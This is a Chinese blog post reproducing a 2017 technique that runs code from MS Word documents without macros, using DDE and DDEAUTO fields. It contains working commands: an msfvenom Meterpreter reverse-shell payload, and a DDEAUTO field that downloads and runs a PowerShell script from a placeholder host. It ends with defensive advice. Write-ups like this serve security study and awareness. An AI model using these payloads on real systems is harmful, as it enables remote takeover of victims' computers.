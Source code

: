 ```yaml
---
title: MSWord Code Exec Without Macro
date: 2017-10-12 22:54:29
tags: [vul,sec]
categories: Security
---
```

<script src="https://ob5vt1k7f.qnssl.com/pangu.js"></script>
昨天复现了一个 Microsoft Office Word 的一个执行任意代码的姿势，跟之前爆出的两个CVE (CVE-2017-0199, CVE-2017-8759) 可以组成三板斧，这里简单记录一下

在不启用宏的情况下执行任意程序，按照复现过程来看这确实像是一个功能而不是bug，微软也表示不会修复这个“漏洞”。这个功能的本意是为了更方便地在word里同步更新其它应用的内容，比如说在一个word文档里引用了另一个excel表格里的某项内容，通过连接域(Field)的方式可以实现在excel里更新内容后word中同步更新的效果，问题出在这个域的内容可以是一个公式(或者说表达式)，这个公式并不限制内容，于是我们可以这样，`ctrl+f9`插入一个域，在`{}`之间写入代码：

`{ DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" }`

或者`插入-文档部件-域`，选择第一个` = (Formula)`
然后右键`切换域代码`来编辑代码，插入上面的内容

这样子可以直接弹出计算器

![calc](https://ob5vt1k7f.qnssl.com/GIF.gif)


既然能执行cmd那就能弹shell

在msf里生成一个ps脚本：

`./msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=1234 -f psh-reflection >xxx.ps1`

在msf里监听

![msf](https://ob5vt1k7f.qnssl.com/HQ%5D%25%7DB5TLH~HBZD%7B1_%7B$D%254.png)

然后开启一个服务器

`python -m SimpleHTTPServer 80`

远程下载ps脚本后执行

`DDEAUTO c:\\Windows\\System32\\cmd.exe "/k powershell.exe -NoP -sta -NonI -c IEX(New-Object System.Net.WebClient).DownloadString('http://x.x.x.x/xxx.ps1');xxx.ps1"`

打开文件后反弹一个shell

![shell](https://ob5vt1k7f.qnssl.com/MPI@%5B%60%25DL%28U7WZL220E0%5B7Q.jpg)


过程很简单，唯一不足的是打开文件过程中会有两次弹窗，第一次是询问是否更新链接，第二个是问是否执行程序，当两个都点击确认后才会执行。

除了上面使用的`DDEAUTO`，`DDE`也有能实现这个效果，但是要多一个步骤
将文件后缀改为`zip`或`rar`，用`7z`打开，修改`word/settings.xml`文件，增加一行`<w:updateFields w:val="true"/>`
![](https://ob5vt1k7f.qnssl.com/6U0%25213Q8W%7BEOM%7BJ_V@7%29G7.png)
替换原来的`xml`文件后把后缀改回来

编辑文档，域代码为`{ DDE "c:\\windows\\system32\\cmd.exe" "/c notepad" }`
效果跟上面一样


类似方法除了上面两个外还有
```
GLOSSARY
IMPORT
INCLUDE
SHAPE
DISPLAYBARCODE
MERGEBARCODE
```
参考微软文档 https://msdn.microsoft.com/en-us/library/ff529384(v=office.12).aspx

目前不清楚这些方法有没有影响，微软认为并没有必要去修改这个“漏洞”

> Microsoft responded that as suggested it is a feature and no further action will be taken, and will be considered for a next-version candidate bug.

建议就是不要打开陌生的文档包括excel，ppt等，如有必要在保护视图中查看，另外及时更新系统补丁

参考：
https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/
